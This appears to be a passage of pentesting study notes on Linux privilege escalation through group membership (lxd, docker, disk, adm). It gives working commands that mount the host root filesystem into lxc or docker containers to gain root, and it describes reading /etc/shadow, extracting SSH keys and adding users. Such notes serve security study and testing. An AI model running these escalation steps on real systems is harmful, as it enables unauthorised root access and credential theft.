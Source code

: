      ```bash
     lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true
     ```
  6. Start container and spawn shell:
     ```bash
     lxc start r00t
     lxc exec r00t /bin/sh
     ```
     Inside container:
     ```bash
     id
     uid=0(root) gid=0(root)
     cd /mnt/root/root
     ```
     - Can read sensitive files (`/etc/shadow`, SSH keys, etc.).


## Docker
- **Overview:**  
  Membership in **docker** group is equivalent to root privileges.

- **Exploit Example:**
  ```bash
  docker run -v /root:/mnt -it ubuntu
  ```

* Mounts host `/root` into container at `/mnt`.
* Can add SSH keys or retrieve hashes from `/etc/shadow`.

## Disk

* **Overview:**
  Users in the **disk** group can access block devices in `/dev` (e.g., `/dev/sda1`).

* **Exploit:**

  * Use `debugfs` to browse the filesystem as root.
  * Possible actions:

    * Extract SSH keys
    * Retrieve credentials
    * Add new users

## ADM

* **Overview:**
  Members of the **adm** group can read system logs in `/var/log`.

* **Use Cases:**

  * Not direct root access, but useful for:

    * Collecting sensitive data from logs
    * Enumerating cron jobs and user activity
